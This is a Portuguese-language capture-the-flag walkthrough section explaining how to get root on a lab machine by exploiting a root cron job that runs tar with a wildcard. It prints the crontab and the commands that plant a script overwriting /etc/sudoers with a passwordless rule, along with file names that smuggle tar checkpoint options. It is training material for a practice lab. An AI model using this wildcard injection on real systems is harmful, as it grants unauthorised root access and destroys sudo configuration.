 # Segunda flag
*Escalate your privileges and obtain **root.txt***

Lembra do arquivo **/tmp/andre_backup.tar.gz**?
**Cron** é uma utilidade no **mundo Linux** para automatização de tarefas, no caso de nossa máquina alvo, analisando o **/etc/crontab** vemos que existe um backup do diretório **/home/andre/backup** sendo feito para aquele arquivo que achamos com o **linpeas.sh** anteriormente. Aqui, temos um exemplo de uma **Wildcard Injection**:

```
andre@cmess:~/backup$ cat /etc/crontab  
# /etc/crontab: system-wide crontab  
# Unlike any other crontab you don't have to run the `crontab'  
# command to install the new version when you edit this file  
# and files in /etc/cron.d. These files also have username fields,  
# that none of the other crontabs do.  
  
SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  
  
# m h dom mon dow user  command  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

**Por que** isso caracteriza uma vunerabilidade de **Wildcard Injection**?

A **última entrada** do **output** de nosso **cat** nos diz que:
A cada **2 minutos**, através do usuário **root**, **TODOS** (indicado pelo **asterísco**) os arquivos na pasta **/home/andre/backup** são comprimidos em um **tar**, que então é enviado até o diretório **/tmp/**

Podemos explorar isso e obter privilégio **root** inserindo aqui um **código malicioso** que irá **remover a necessidade do usuário andre de fornecer uma senha ao executar o programa sudo**. Este código será executado pelo nosso **cron**:

```
andre@cmess:~/backup$ echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > safeprogram.sh  
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=sh safeprogram.sh"  
andre@cmess:~/backup$ echo "" > --checkpoint=1
andre@cmess:~/backup$ ls -l  
total 16  
-rw-rw-r-- 1 andre andre  1 Jun  1 07:59 --checkpoint=1  
-rw-rw-r-- 1 andre andre  1 Jun  1 07:59 --checkpoint-action=exec=sh safeprogram.sh  
-rwxr-x--- 1 andre andre 51 Feb  9  2020 note  
-rw-rw-r-- 1 andre andre 53 Jun  1 07:58 safeprogram.sh
```
